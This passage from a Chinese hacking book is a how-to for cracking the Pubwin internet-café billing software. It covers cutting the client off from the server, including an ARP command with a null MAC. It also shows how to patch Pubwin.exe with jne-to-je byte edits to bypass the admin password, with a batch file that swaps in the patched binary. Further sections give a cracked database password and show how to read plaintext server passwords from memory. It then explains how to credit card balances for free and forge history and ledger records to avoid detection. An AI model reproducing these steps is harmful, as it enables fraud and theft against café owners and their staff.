### 2.3.1、禁用网络连接

竟然忘记了最简单的断开网络连接的方法！想办法进入网络连接（从网上邻居的属性或者控制面板），然后在你的当前连接上（一般叫做“本地连接”）点击右键并选择“停用”，如图 2-3-1。

如果在右下角的通知区域显示了连接的图标，也可以点击右键并选择“禁用”就可以了。这时候你断开了和外界的所有连接，成为了“信息的孤岛”。


### 2.3.2、停用网卡

首先应该清楚的是，利用断开网络连接的破解方法一般是在登录后，所以你还是得投资一些的。登录后首先想办法进入系统属性（可以点击“我的电脑”的右键菜单，选择其中的“属性”，也可以从控制面板中进入），在“系统属性”中选择“硬件”选项卡，然后点击“设备管理器”，如图 2-3-2。


在“设备管理器”中找到“网络适配器”，也就是我们的网卡。双击找到的网卡将出现当前网卡的属性，在“设备用法”中选择“不要使用这个设备（停用）”，如图 2-3-3。然后点击“确定”，你的网卡就停用了，这时候你的所有网络连接都会中断。


### 2.3.3、利用防火墙阻断网络连接

我们只要把 Pubwin 的客户端程序加入防火墙的过滤规则中，并不允许通信就可以了。Windows XP 自带了防火墙，打开 Windows 防火墙后，在“常规”选项卡中选择“启用”和“不允许例外”，如图 2-3-4。

然后转到“例外”选项卡，点击“添加程序”，将 PubwinClient 添加到列表中，如图 2-3-5。选择了 PubwinClient 后，点击“更改范围”，然后激活“自定义列表”，在其中输入服务端的 IP 地址，如图 2-3-6。一路“确定”后修改生效。


### 2.3.4、绑定服务端错误的 MAC 地址

这个算是比较高级的方法了，这个方法利用的是 ARP 协议。关于 ARP 协议以及 MAC 地址的详细内容这里略过。进入 CMD，执行如下命令，如图 2-3-7。

```bash
arp -s Pubwin服务器IP 00-00-00-00-00-00
```

这时候你就会失去和服务端的连接了，但其它网络服务仍然可以使用。网上有一些破解 Pubwin EP 的程序，利用的就是这个原理。


## 2.4、小结

到这里我们 Pubwin 客户端的破解之旅就结束了，笔者希望大家学到的不仅仅是方法，更宝贵的是思路。在网吧管理软件的破解中，也许你会发现和其它网管软件相同的东西。融会贯通这些破解方法和举一反三，才能成为网吧的破解高手。另外在光盘中，笔者收录了一些 Pubwin 的破解工具，它们的使用都很简单，大家自己玩吧，不要做坏事哦！

## 3、Pubwin4 客户端密码的破解

Pubwin 的客户端密码也就是我们俗称的管理员密码，但是不要和 Windows 的系统管理员密码混淆了。这里我们以 Pubwin4 环境为主，对于 Pubwin EP 的管理员密码从本地似乎无法破解……我们回顾一下以前 Pubwin4 的管理员密码破解方法吧！

### 3.1、Pubwin4 管理员密码破解回顾

还记得一篇文章中写到的：“最初 Pubwin4 的密码破解见于一位老兄用 WinHex 在内存中查密码……”这篇文章讲到的破解方法和前面章节提到的方法类似，因为 Pubwin4 直接将管理员密码明文放在内存中，破解者只要到指定内存位置查找文本即可获得密码。

不过后来官方补上了这个漏洞，管理员密码加密后保存在内存中，查找难度增大。但很快又有新方法被公布。官方虽打了很多补丁并升级，整体结构变化不大，因此仍可利用有漏洞的客户端替换新版本，再用老方法查密码。

### 3.2、绕过管理员密码验证

下面要讲到的方法与加密解密有关。想进入 Pubwin4 系统设置、解除限制或退出客户端时，通常需要管理员密码验证（如图 3-2-1）。只有输入内容与管理员密码匹配时才能通过验证进入系统设置，流程如图 3-2-2。我们可以修改其验证方式，实现“口令错误也通过验证”，从而间接进入系统设置（如图 3-2-3）。


### 3.2.1、反汇编 Pubwin.exe

反汇编 Pubwin4 客户端程序 Pubwin.exe 的目的在于找到密码验证程序实现验证功能的指令并修改。先在客户端中触发验证并记录提示信息，然后复制 Pubwin.exe，使用 W32Dasm 打开进行分析。


哦！点击“反汇编”菜单，选择“打开文件”，选择刚才 COPY 出来的 Pubwin.exe，很快 W32Dasm 就完成了反汇编的任务，速度可是它的特长哦，如图 3-2-5。

开始操作了。点击“参考”菜单（在菜单栏从左数的倒数第二个），并选择其中的“串式参考”，在其中找到刚才我们记下的密码错误时显示的信息，如图 3-2-6。


双击它就来到了显示这个消息的那条指令对应的汇编代码位置，“串式参考内容清单”可以关闭了。接下来我们的任务就是寻找那个判断密码是否匹配的指令的位置了。当前位置是密码错误后跳转到的位置，也就是说当前位置密码已经验证完了，所以我们往前面找。……在上翻时突然发现一个跳转指令“jne”，这时候 W32Dasm 的标示条也以高亮显示了，如图 3-2-7。


这句指令的当前位置为 **0040F48A**，它的功能是：**不等于就跳转到 0040F495 处**，其中 jne 就是不相等就跳转的意思，机器码为 75，就是前面的 7509 中的 75。这里就是我们要找的判断密码是否匹配的指令了，如果不匹配就跳到 0040F495 处……

在这句跳转命令的下 7 行还有一个跳转指令，该行内容为：**0040F493 EB4E jmp 0040F4E3**。JMP 指令是无条件跳转；如果上面的条件不符合的话（即不是 jne，也就是相等），那这里就跳到了输入与密码匹配的地方，也就是 0040F4E3，这时候就进入“系统设置”了。


### 3.2.2、修改 Pubwin.exe

汇编代码就分析到这里，关闭 W32Dasm，下面我们来修改程序。前面是不相等就跳转到失败，如果我们把它修改为“相等才跳转”，那我们输入和密码不匹配的内容，这个条件就不会满足，也就不会跳转，然后就会直接执行进入“系统设置”的指令。


还是拿出“超级破解器工具”WinHex，点击“文件”菜单，选择“打开”，选择 Pubwin.exe。……在图 3-2-7 W32Dasm 窗口的最下面给出了那条指令所对应的偏移位置，如图 3-2-8。偏移地址为“0000F48A”，点击“位置”并选择“转到偏移量”，然后输入这个地址，WinHex 就会自动定位到指令的机器码了，如图 3-2-9。

机器码 75 对应的指令为 jne（不相等则跳转），它对应的是 je（相等则跳转），对应机器码为 74，因此我们将 75 改为 74 就可以了。……将以下代码保存为 RePubwin.bat，并将其和修改后的 Pubwin.exe 放在同一个目录中：

```bat
@echo off
@taskkill /f /im pubwin.exe
@copy pubwin.exe /y %programfiles%\Hintsoft\Pubclt\pubwin.exe
@start %programfiles%\Hintsoft\Pubclt\pubwin.exe
```

其中 **%ProgramFiles%** 变量就是系统盘的 Program Files 目录，copy 的 /y 可选项表示不使用确认是否要改写现有目标文件。接下来动动你的手指头双击执行这个批处理就可以了。

马上 Pubwin.exe 结束后又执行了，但这时候执行的程序却是我们的卧底。右击右下角 Pubwin4 的图标，选择“系统设置”，密码随便输入，点击“确定”是不是进去了？呵呵，第一次这样玩感觉还是很不错的！接下来我们就可以把不爽的限制都取消了，或者直接退出客户端。当然最爽的还是搞它的密码了，如图 3-2-10。

但是在 Pubwin4 的最后几个版本中，这里的密码也被加密了，加密后的密码为 16 位，不是 MD5 密码。我这里的测试版本为 4.3.0.1，貌似 4.3.0.7 就不可以，不过改密码还是可以的，直接在密码框中输入就可以了。


到这里我们已经突破了 Pubwin4 的系统设置，自我感觉这是一个很巧妙的方法。前面我们修改指令的时候，还可以把那句跳转指令忽略执行，一样可以执行到下面进入“系统设置”的指令的，不执行任何操作的机器码为 **90**，因此把那句跳转改为 90 就可以了。但是这里要注意的是，要连后面的一起改，也就是说把 **7509** 改为 **9090**，这样才可以，否则 Pubwin.exe 的执行会出错。这样修改不管你输入的密码是对是错，只要你点了“确定”，都一样会进入系统设置的，因为根本就没做比较。

## 4、Pubwin4 服务端安全与免费充值

本节将讲到的内容或许有的朋友早就迫不及待地要看了，当然是我们最爱的刷钱了！除了 Pubwin 的免费充值外，我还将讲解一些 Pubwin4 服务端的一些设置和功能以及安全状况，让平时没有机会接触到服务端的朋友对它也有一定程度的了解。让我们赶快进入 Pubwin 服务端的探索之旅吧！

### 4.1、Pubwin4 服务端数据库结构

首先让我们来了解一下 Pubwin4 服务端的数据库结构，这样在后面的免费充值中我们才能得心应手，对症下药。前面我们已经说过 Pubwin4 使用的数据库是微软的 ACCESS，所以它的数据库文件我们可以直接用 Microsoft Office Access 打开，不过这在网吧可能比较困难。我想没有几家网吧会装这个给你用吧！没有关系，网上有很多小巧的 Access 数据库浏览器。这里我用的是多功能数据库浏览器，它一直是我的首选。因为 ACCESS 可以加密，而 Pubwin4 的数据库的确也加了密码，不过 ACCESS 的密码安全很是脆弱，很容易被破解。多功能数据库浏览器自带“密码破解功能”，这个是最方便的地方，破解得到 Pubwin4 数据库密码为 **igsonrbg3721nd**，其它数据库密码也是这个了。

数据库浏览工具已经有了，下面我们就该进入数据库了解里面的内容了。Pubwin4 服务端数据库的默认位置是 **%ProgramFiles%\Hintsoft\Pubsrv\Database**，里面有四个 .mdb 的数据库文件：**Business.mdb、Control.mdb、Member.mdb 和 Commodity.mdb**，对我们有用的是前三个数据库，让我们来逐一了解它们中的一些重要的表和字段。


### 4.1.1、Business.mdb

首先我们要知道什么是数据库的表和字段。用多功能数据库浏览器打开 Business.mdb，直接破解密码进入，如图 4-1-1。在多功能数据库浏览器的左上边框中给出了这个库中所有的表名，在左下边框中给出了当前表的字段名。这里我们可以把一个数据库文件看作一本书，而表就是书的每一页，字段就是每一页上的内容，它们之间从上至下是依次包含的关系。从图中我们也可以看出，其实数据库就是一个表，在数据库浏览器的右边窗口中给出了当前表的内容，而每一列的标题就是字段了，字段的命名一般都是有一定含义的。下面我们来看 Business.mdb 的几个重要的表以及其中的重要字段和代表意义。

- a、**BusTab_BadDebts**

坏账记录所用的表。Pubwin 允许记坏账，在结账的时候有一个“作为坏账”的选项。点击它，然后会让你输入坏账原因。这个功能是为了防止 Pubwin 服务端管理员的操作失误而设置的，比如刷错钱了等。可以把账目记为坏账。另外不太忙的时候，网管上机也利用这个，等想下台的时候做个坏账就可以了。坏账可以在本班的记录中查看，并且不会被记入最后的总账，如图 4-1-3。

该表的字段名 UserID 是对应的用户编号，BeginTM 表示上机的开始时间，EndTM 表示结束时间，Reason 是坏账原因。


- b、**BusTab_CashIncome**

该表保存了所有网吧用户（包括临时用户和会员）的消费历史记录，其中 UserID 代表用户编号（以后如果不特殊说明都为此），UserType 为用户类型，ResultMoney 为应该付的钱数，FactMoney 为实际收的钱数。

- c、**BusTab_Duty**

该表列出了网管各班次及班次账目的历史记录，其中 DutyDate 为交接班的日期和时间，DutyName 为班次名称，Principal 为值班人姓名，而最为重要的两个字段是 CashRemainToNextDuty（上班留下的现金）和 RemainedCashAdvPayment（前班未结账预付款）。交接班的情况我们可以在 Pubwin4 的服务端上点击“交接班”了解到，如图 4-1-4。


网管在交接班的时候根据“本班应留存现金”核对手里实际的钱是否够数，而一般情况下都是要留给下一班一部分现金的，这个在“留给下一班现金”中输入就可以了。这里最要注意的是本班留存现金的计算：

> 本班留存现金 = 前班留下现金 + 本班现金实收款 + 本班未结账预付款 - 前班未结账预付款

这个到后面我们改钱的时候有用。其中“前班留下现金”和“前班未结账预付款”的值来自数据库，而“本班现金实收款”和“本班未结账预付款”则由计算得来。

- d、**BusTab_Event**

事件记录表，该表记录的是 Pubwin4 服务端的状况和管理员的操作，其中字段 EventName 代表事件名称，一般事件有：进入系统设置、开启/关闭服务端、进入会员管理以及进入本地查账等，如图 4-1-5。


- e、**BusTab_RsvIncome**

该表记录的是所有会员上机的历史。


- f、**BusTab_UseHistory**

该表保存了客户机使用的历史记录，其中字段 MachineID 代表计算机编号，IPAddr 代表客户机的 IP 地址，如图 4-1-6。

- g、**BusTab_User**

该表保存了所有用户的信息及使用消费的历史记录，字段 Name 表示登记卡用户的姓名，CertificateType 是登记用户的身份证号，这些可都是非常敏感的个人信息哦，如图 4-1-7。

这个库主要控制的是当前上机的一些情况，针对的是临时用户，其下有三个重要的表：**CurTab_Registry**、**CurTab_UseHistory** 和 **CurTab_UserProp**。

- **a. CurTab_Registry**：该表保存了当前上机用户的信息：卡号、卡登记用户名姓名、用户的身份证号等。
- **b. CurTab_UseHistory**：该表保存了普通用户的使用历史记录：信息有用户编号、用户类型、上机开始时间、结束时间、所上客户机机号、所上客户机的 IP 地址。
- **c. CurTab_UserProp**：该表保存了当前用户的卡以及消费情况，第一个字段列出了用户编号（即卡号），第二个字段 `Pswd` 列出了卡的密码（网吧中如果是临时卡，一般密码都是一致的）。字段 `AdvPaymentCash` 代表用户的预付款。


### 4.1.3、Member.mdb

这个表保存了网吧会员的个人信息以及消费信息，其中比较重要的有 **MemTab_History**、**MemTab_Member** 和 **MemTab_RsvSale**。

- **a. MemTab_History**：该表保存了会员的事件信息，其中事件是以 ID 形式保存在表中的，比如开户、储蓄卡支付、预付款等。字段 `MemberID` 代表会员卡号，`Event` 代表事件类型，`EventMoney` 代表每次事件支付或找零的钱数，`DutyID` 代表班次编号。
- **b. MemTab_Member**：该表保存了网吧所有会员的详细资料以及卡上的余额情况，个人信息有卡号、姓名、身份证号、密码，字段 `RemainMoney` 代表卡上余额。
- **c. MemTab_RsvSale**：该表保存了所有会员往卡里增加储蓄金的历史记录，其中字段 `EventTm` 为增加储蓄金的时间，`AddMoney` 为增加储蓄金的金额，`Event` 为事件类型（1 为开户，2 为增加储蓄金）。

我已经将 Pubwin 数据库结构的大部分内容都讲解完了，接下来要看一些 Pubwin 服务端的设置和操作，这些可以让我们在没有实际操作过的情况下对它有一定的了解。


## 4.2、Pubwin4 的服务端操作

其实服务端一边网管的工作一般就那么固定几个，最经常的工作就是开户、结账，这些我们可不关心，我们在意的是内部设置。首先让我们来看 Pubwin4 服务端的界面，它被称为“公众电脑屋管理系统 Pubwin4 服务版”。

从上至下依次是标题栏、菜单栏、工具栏和工作区，首先我们来看工具栏上几个按钮的功能。


### 4.2.1、工具栏上按钮的功能

在进行操作前我们需要选中在工作区中的某个用户，开户、结账和登记就不说了，点击“方式”可以更改指定用户的使用方式：互联网或局域网。点击“预付”为指定用户增加预付款，但是之前还得输入用户编号，很是不方便，既然前面我们都选择了用户了，干吗还要输入用户编号呢？输入用户编号后出现了“增加预付款和更新定时”的选项卡，如图 4-2-2。


在“增加现金预付款”中输入预付款金额就可以了，在下面的更新定时中，不启用就是用户时间到了以后不自动注销用户，而是用户使用多少时间结账时付给网管相应的金额。点击“短信”可以给客户机发送自定义消息，比如提示用户时间快到了，或者提示用户不要访问非法网站等；点击“详细”可以查看指定用户的详细资料，包括用户信息、消费金额、使用记录、登记记录等，如图 4-2-3。


点击“商品”可以从指定编号的用户的余额中拿出一部分钱购买小商品，烟、水和方便面之类的。从这里我们也看得出来 Pubwin4 的商业实用功能还是比较强大的。

接下来要涉及到的内容要求我们先要了解一些东西。在 Pubwin4 的服务端，一共有 4 种形式密码存在，它们分别是：

- 服务站管理员口令：用于管理服务站的管理员口令，能进行“系统设置”中的所有功能和小商品管理；
- 客户站管理员口令：用于维护客户机的管理员口令；
- 服务员口令：能建立新会员并给会员增加金额；
- 老板口令：用于会员、营业数据以及账目管理的口令。


不同的人拥有不同的口令，执行不同的操作，当然也有可以一个人拥有多个口令或多人拥有一个口令。点击工具栏上的“会员”按钮，将出现一个下拉菜单，最常用的是“会员增值服务”，如图 4-2-4。


这两个操作都需要服务员口令的验证，验证成功后依次输入会员编号和金额就可以操作成功了。这里我们还可以查看会员资料，如图 4-2-5。点击“接班”，这个是为交接班而设计的，这里的信息有本班的一些收入信息、上班留下的金额，还可以设置留给下班的金额。一切设置妥当后，点击“执行”，交接班就完成了。

最后一个“本班”按钮是查看当前班次的用户使用、金额收入以及事件等的详细信息。接班时如果发现账目异常则可以从这里查阅每一次上机的具体情况以及缴费金额等，经认真核对发现问题，如图 4-2-6。至于下面的“用户视图”和“机器视图”是分别以用户和客户机为主体查看当前的使用情况的。前者可以查看所有用户的编号、上机时间、使用时间、预付款等内容，而后者则可以查看某台客户机的状态：是否在使用状态、是哪个用户在使用某台客户机，并支持远程关机和唤醒，不过远程唤醒需要硬件支持。

### 4.2.2、菜单栏中的一些操作

转换到“机器视图”后，点击菜单栏中的“机器”菜单，我们可以看到 Pubwin4 服务端支持的对远程客户机的功能，如图 4-2-7。

它不仅能对远程客户机发送关机、重启和唤醒等指令，还可以监视屏幕、传送文件、远程执行命令等，简直就是一个远程控制程序了。

点击“管理”菜单，出现如图 4-2-8 的下拉菜单。其中“会员管理”“营业数据管理”和“远程查账管理”需要老板口令，而“小卖部管理”和“系统设置”则需要管理员口令。


首先让我们来看“会员管理”，这里可以查看和更改网吧所有会员的资料，同时也可以查看每次会员的消费及续费情况，如图 4-2-9。


点击“新建”我们可以添加一个新的会员账户，根据其他会员的账户信息输入就可以了，如图 4-2-10。

点击“注销”会删除指定会员，点击“增加金额”为会员卡充值，点击“提取现金”从会员卡余额中扣除提取的现金数，点击“修改资料”可以修改指定会员的所有资料。

“小卖部管理”中可以对网吧所售商品进行相关设置，比如添加商品类别、设置商品单价、设置对不同用户的商品折扣、查看库存、查看销售记录等，如图 4-2-11。

“营业数据管理”可以详细查看每一班的详细营业情况，这些数据保存在服务端安装目录中，命名规则为：网吧名称_班次时间_班次名称@班次标示.mdb。营业数据历史记录查询如图 4-2-12。

“远程查账设置”这里不再展开，重点来看“系统设置”，Pubwin4 所有重要参数设置都在这里。输入管理员口令后首先进入“服务版参数”选项卡，如图 4-2-13。

老板就是老板。这里设置的东西前面我们几乎都有涉及到，大家应该都能明白吧！

来到“网络成员”选项卡，这里面显示了网吧中所有安装了 Pubwin4 客户版主机的 IP 地址，我们也可以手工添加和删除客户机，这些操作都是十分简单的。然后我们继续来看“收费标准”，这里面可是关系到我们切身利益的设置了，如图 4-2-14。

在“全局参数”中的普通用户和会员用户的计价单位表示网吧客户上机要付的最低金额。比如说你是普通用户，这里设置的“普通用户计价单位”为“元”，那么你在预付后即使只玩了两分钟，Pubwin4 也会按 1 元钱给你计算。“进位舍入”就比较好理解了，这里可以设置从满 1 进位到满 9 进位。很多网吧老板通过修改这两个参数以达到“某种”目的，对这样的网吧，大家一定要斗争到底，坚持上完最后一分钟！

这里还可以设置包夜时间及计费、互联网/局域网使用方式的不同计费规则，还可以设置时段优惠和累积时间优惠规则。Pubwin4 比同类管理软件强的地方就是它强大和灵活的计费规则了，这点还是比较值得称道的！

“客户端参数”中的设置和客户机上的“系统设置”基本相似，这里的客户机管理员口令一旦设置，所有的 Pubwin4 客户端则都会用同一个更新的口令了。在“高级设置”中可以设置“包时段消费限制”及其他一些高级选项，这里还可以设置交接班口令和查看本班数据口令，其他信息如图 4-2-15。


### 4.2.3、Pubwin4 服务端的密码安全

经过测试，Pubwin4 服务端的三个密码：老板口令、管理员口令和服务员口令，都是以明文方式保存在内存中的，我们可以很容易地在内存中查看这些密码。这里我设置的三个密码分别为 bosspass、adminpass 和 serverpass，我们用 WinHex 打开 Pubsrv.exe（Pubwin4 服务端的主程序）的全部内存，然后转到如下偏移量：003785C0，如图 4-2-16。


三个密码竟然都在一起出现了，出人意料啊！我的测试版本是 Pubwin4.3.0.7，算是比较高的 Pubwin4 版本了。也许有的朋友问：就算可以直接在内存中查看密码有什么用啊？我们哪有机会去操作 Pubwin 的服务端啊？呵呵，是的，不过有一种叫做终端服务的东西，它可以帮助我们从图形界面操作远程主机，就像在本地操作一样，并且你的操作完全不影响对方。这样的话你就可以利用这个方法得到所有的服务端密码，进而添加会员、为自己免费充值等。经过前面对 Pubwin 服务端的介绍，这些应该不是问题吧！关于终端服务的详细内容，将在下一章进行讲解，迫不及待了吧！呵呵，不要着急哦！从图形界面上充值虽然可以成功，但开启对方的终端服务和图形界面控制都是相对不安全的，那么让我告诉你从后台为自己免费充值的秘诀吧！

## 4.3、Pubwin4 下的免费充值

终于讲到这里了，我也长长地出了一口气。除了上面讲到的那样，我们可以在图形界面下像管理员那样为自己的卡充值外，更为隐蔽的充值方法是从后台充值，即修改数据库中相应的字段为我们想要的值。当然要修改人家数据库的前提是你已经入侵了 Pubwin4 服务器，关于入侵的详细内容同样在下一章中讲解，这里我们只关注修改的方法。网吧中分为临时上机用户（即普通用户）和会员用户，让我们分别来看看它们的免费充值方法。

## Pubwin 安全日记

### 4.3.1、临时卡用户的免费充值

通过前面的 Pubwin4 数据库结构的学习，我们知道当前上机用户的信息都保存在 Control.mdb 里，其中表 CurTab_UserProp 保存了当前上机用户的信息，字段 AdvPaymentCash 下的值为用户的预付款，因此我们只要修改这个值就可以了。把 Control.mdb 复制出来并用多功能数据库浏览器打开，然后来到表 CurTab_UserProp，首先选中要操作的用户编号，也就是你的卡号，然后在右边找到 AdvPaymentCash 字段处，双击你的预付金额数，并输入一个新的数字，如图 4-3-1。


然后回车确认，值就被修改了。如果你怕改错了或者看着眼乱，可以用该数据库浏览器的搜索功能搜索你的卡号，然后点击左下窗口中的字段“AdvPaymentCash”，这样就很直观了。笔者的建议是不要改得太离谱了，最好跟其他用户的钱数差不多，稍微多一些就可以了。而且改的数字最好是一个整人民币的值，10 或者 20 之类的，哪有人预付的时候交 13、17 这样的啊！

数据库修改完毕，保存退出。然后将修改后的 Control.mdb 覆盖原文件，直接覆盖就可以了。不过要想你的修改生效的话，必须结束进程 Pubsrv.exe，在管理员不注意显示器的时候再做，要不然会引起不必要的怀疑。入侵了对方后，我想结束一个进程还是很容易的。


### 4.3.2、会员卡的免费充值

打开 Member.mdb，打开表 MemTab_Member，其中的字段 RemainMoney 代表卡上的余额，利用前面同样的方法修改它就可以了，还是不要太离谱啊！

### 4.3.3、充值记录的消除和总账的修改

普通用户的充值记录貌似没有，反正我是没有找到，管理员对普通用户的充值也是比较不关心的，而会员用户就不一样了。在“会员管理”里我们可以看到每一次会员的费用及储蓄金增加记录。而在数据库中修改了会员的余额记录后却不会增加“添加预付款”的事件记录，如图 4-3-2。

管理员看到的话一下子就会发现不正常了，那我们如何弥补这个漏洞呢？我们知道卡上最后的余额是上一次的余额减去最后一次上机后用去的金额，因此我们只要把最后卡上剩下的余额改为我们上面修改的值就可以了。通过前面我们知道会员事件的历史记录保存在表 MemTab_History 中，我们只要找到指定卡的最后一条上机记录就可以了。利用搜索功能这是很容易就做到的，如图 4-3-3。


然后来到最后一条记录，把字段 EventMoney 的值改为你上面改的值的负值，比如我上面改的是 170，这里就要改为 -170。修改后效果如图 4-3-4。

你改的金额一定不能像我这样“无耻”啊，呵呵！要不被发现了别说我没有提醒你。这里只修改了最后一条记录，如果管理员自己查的话还是会看出问题的，这就要看你的数学功底了，把以前的“添加预付款”的值都改大一些，这样就不太容易发现了。另外表 MemTab_RsvSale 记录的是会员每次充值的信息，大家也可以从这里入手。大家根据我提供的 Pubwin4 数据库资料和服务器端会员资料的查看方法自己来完成吧！


所谓总账就是接班时本班的应留存现金，前面我们修改了自己的账户余额，人家找我们钱的时候自然会多找给我们了，因此他也就会亏损：手头的钱和应收的钱不一致，这时候就可能引起管理员怀疑和查询，很有可能就把你揪出来了……所以添加了自己的余额不要忘了改总账，人家收钱的网管也是给人打工的，老板不厚道跟人家可没有关系，别让人给你背黑锅。前面我们已经知道本班留存现金的计算公式为：

**本班留存现金 = 前班留下现金 + 本班现金实收款 + 本班未结账预付款 − 前班未结账预付款**

其中“前班留下现金”和“前班未结账预付款”的值来自数据库，它们是我们可以修改的，因此我们只要将前者的值改小或者把后者的值改大就可以使总账减少。这两个值分别对应数据库 Business.mdb 的 BusTab_Duty 表中的字段 CashRemainToNextDuty 和 RemainedCashAdvPayment。这里如果要改“前班留下现金”，收入与实际收入正好相等的修改后的“前班留下现金”的计算公式为：

**前班留下现金 = 原来前班留下现金 − 你修改的预付款 + 你实交的预付款**

而如果要改“前班留下的预付款”，则计算公式为：

**前班留下的预付款 = 原来前班留下的预付款 + 你修改的预付款 − 你实交的预付款**

数学不好的朋友也许要头晕了（我数学也不好，不过是多经历了几次头晕而已），如果你不想计算的时候，就把“前班留下现金”的值改得稍微再小些，或者把“前班留下的预付款”改得稍微大些，这样收钱的兄弟（MM）也可以……

## 4.4、小结

我们的 Pubwin4 免费充值之旅就到这里了，怎么样，过瘾吧！不过我要在这里提醒广大在网吧混的朋友：这些方法对付黑网吧还可以，不可用来进行任何非法活动。免费充值玩玩就可以了，总是弄没有什么意思，而且很危险，大家一定不要沉湎其中。和金钱粘多了，人也会变得愈发污浊，那样最后害的就是你自己了。我们详细地讲解了 Pubwin4 下的免费充值，对于 PubwinEP 的免费充值，由于其数据库的原因，我们需要掌握 SQL 语言，这不在我们的讨论范围之列。光盘中收录了一些 PubwinEP 的充值和破解工具，只要有了远程计算机的管理员账户以及密码就可以免费充值了，使用很傻瓜，我就不再赘言了。

大家通过本章的学习对 Pubwin4 和 PubwinEP 都有了一定程度的了解，也对它们的破解和安全有了实操的经历。最后我想说的是我们学习这些的目的不是到网吧免费上网，刚开始对免费的憧憬可以理解，因为笔者也是这么过来的；但如果你一直这样下去，就算不受到别人的谴责也会受到自己良心的谴责。这里不再多说什么，希望大家通过本章学习到了自己想要的东西。

## 第5章 网络入侵全程剖解

## Intro

从本章中你可以学到：

- 1. 网络技术的一些相关术语
- 2. 辨认内网和外网以及自己所处的网络位置
- 3. 了解网络协议和端口的基础知识
- 4. 了解网络中常用的一些网络设备
- 5. 星型网络拓扑结构和常见网吧布局
- 6. 本地信息搜集的一些方法
- 7. 获得 Win2000/XP 的本地系统密码的方法
- 8. 利用 SNMP 的弱口令获得远程主机信息的方法
- 9. 对 Nmap 扫描使用和扫描结果分析
- 10. 社会工程学的概念和应用
- 11. 物理方法搜集管理员信息
- 12. 根据获得的不同信息制定不同的入侵方案
- 13. SMB 和 NETBIOS 以及 Windows 共享的相关知识
- 14. NTLM 验证的详细过程和深入研究
- 15. 通过 SMB 实现远程密码猜解
- 16. 密码字典的制作
- 17. 远程密码猜解工具 SMBCrack 的使用方法
- 18. 利用 IPC$ 进行入侵的经典步骤
- 19. 在 IPC$ 入侵中的常见错误分析与解决
- 20. 在 Win98 和 WinXP 下使用 IPC$ 的解决方案
- 21. 了解 Windows 的终端服务
- 22. 利用 Brutus-AET2 猜解远程主机的 FTP 密码
- 23. 使用 TSCrack 猜解远程主机的终端服务密码
- 24. 了解缓冲区和缓冲区溢出漏洞
- 25. 如何编译缓冲区溢出攻击代码
- 26. 远程缓冲区溢出漏洞攻击实例
- 27. UE 的缓冲区溢出攻击实例
- 28. Metasploit 的命令行终端使用方法
- 29. Metasploit 的 Web 控制台使用方法
- 30. Metasploit 的缓冲区溢出攻击实例
- 31. 如何提高溢出的成功率
- 32. 理解 ARP 协议的工作原理
- 33. 理解 ARP 协议的漏洞与 ARP 欺骗的原理
- 34. 简单的 ARP 欺骗演示
- 35. 中间人攻击的原理解析
- 36. ARP 欺骗的高级应用之会话劫持
- 37. DNS 以及 DNS 欺骗的实现原理
- 38. DNS 欺骗的全过程展示
- 39. 如何在交换环境下进行网络嗅探
- 40. 使用 ARP 欺骗工具出现网卡错误的基本解决方法
- 41. APKRootkit2005 的使用方法
- 42. 手工克隆账户的方法
- 43. 账户克隆的原理解析
- 44. 深挖一些权限保持的手段


本章我们将进入网络安全的高级话题——入侵的学习。入侵也叫做网络渗透，由于入侵的过程中要考验入侵者各方面的综合知识，因此难度最大，而也是最刺激和最富挑战性的黑客活动。的确，远程控制一台计算机是每一个黑客都喜欢做的事情。所以说入侵是基于网络的黑客行为，在浩瀚的网络世界中，网吧作为一个局域网只是其中的冰山一角。范围缩小了，难度也就相应降低了许多，因为一个大型网络需要考虑更多的细节。但这并没有降低入侵这门艺术的吸引力，本章我们就将在网吧这个我们最容易接触到的网络中学习网络渗透的相关知识，了解真正的网络攻防是什么样的，掌握了攻击方法的同时，思索带来攻击的原因是什么，即攻击原理，从而了解网络与系统存在的弱点。而不知不觉中，你会发现自己已经掌握网络、系统、软件这些在入侵中接触到的事物的某些原理和细节了。

如果把网吧的网络当作一个真正网络实体来看的话，它也只能算是一个小型的网络。当然，网吧的网也是网络，只不过前面我不知道该如何表达！说小是因为网吧中的所有计算机都是集中在一起的，它们都被安排在一个物理地域范围内，这个范围不会很大。而现实世界中，有多少公司的企业网络是跨城市的呢？而又有多少跨国公司的内部企业网络跨过 N 个国家连在一起。仅从这些方面我们就可以看出网吧之网是如此之小了。不仅如此，网吧之网还是很单一的，它所有的计算机都连接在一个网络中，而其他组织中又有多少网络是被分割成许多个子网来安排的呢？不论怎么说，网吧之网都是很简单的，这对我们是好的，因为我们不必了解浩瀚的 Internet 实现的种种细节，网吧的网基本可以看成所有网络的最初形式。

一个网络以外的所有其他网络对这个网络来说都是“不信任的”，它无法预料外面那么大的世界里究竟存在多少潜在危险，这也就是人们为什么要安装防火墙的原因了，而在管理员的潜意识中，自己网络中的所有电脑都是可信任的，也许他们认为这些计算机或者网络设备都在自己的掌控中。但是他们没有考虑到，若有一天这个网络中的一台计算机被别人控制了，会产生什么安全问题呢？而在网吧这样典型公共场所中，每天又有不知道多少人在使用不同的客户端……不再假想了，在这种内松外紧的大环境下，在网吧入侵要简单了许多。

本章将以循序渐进的方式来讲解网吧网络渗透的整个过程，从入侵前的信息收集、整理，到几种内网的常用入侵方法，再到成功入侵后的收尾工作。在这个学习过程中，我希望读者掌握的不仅仅是入侵的步骤与方法，重要的是自己的思路和对原理的理解，这样的入侵才是快乐和有意义的。

## 测试环境 Windows XP Professional SP2

### 1、网络技术基础

说到入侵就难免会涉及到网络相关技术了。笔者也是新学网络没有多少时间的菜鸟，在学习这方面的知识之前，对其甚是不屑，认为网络没有什么可学的，就那点东西谁不会啊！可到真的学习的时候却与自己的想象大相径庭，所以有些事情在亲自体验之前切不可妄自菲薄，事情自己做过以后才知道究竟，别人再如何描述都没自己亲身体验真实。网络这块的知识笔者感觉是浩瀚无边，很多新的技术不断出现，让人应接不暇。网络的知识没有一个定形，或者说没有绝对，这是一个想象力飞舞的世界。比如说网桥，本来是连接两个局域网的，可怎么却又有了路由的功能？而为什么那么多的调制解调器后面没有路由器的工作呢？……太多太多的可能，只要你敢于想象，说不准什么时候它就变成了现实。

其实网络知识都是理解性的，不像程序编写那样需要非常强的逻辑思维。只要把相关技术的原理理解了，很多从前毫无头绪的问题都会变得简单。所有的网络技术都围绕了一个话题——如何实现更快更好的通信，一些看似毫无关联的知识实际上通过若干层都会联系到一起的。所以形成一个大的体系结构对学习网络知识是很有益的。以上这些均是一个网络初学者的感受，润色了半天打下这些字，高手勿笑。

